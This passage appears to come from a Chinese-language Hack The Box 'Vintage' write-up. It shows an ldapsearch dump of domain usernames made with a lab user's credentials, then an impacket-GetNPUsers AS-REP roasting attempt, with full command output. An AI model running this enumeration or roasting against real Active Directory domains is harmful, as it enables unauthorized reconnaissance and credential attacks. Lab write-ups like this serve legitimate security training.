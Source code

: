 尝试使用这个票据来列出不需要Kerberos域认证的用户，先生成域内用户的用户名列表

```
└─# ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt   

└─# cat usernames.txt 
Administrator
Guest
DC01$
krbtgt
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

然后用impact-GetNPUsers列出不需要Kerberos域认证(UF\_DONT\_REQUIRE\_PREAUTH)的用户

```
└─# impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile usernames.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User svc_ldap doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_ark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

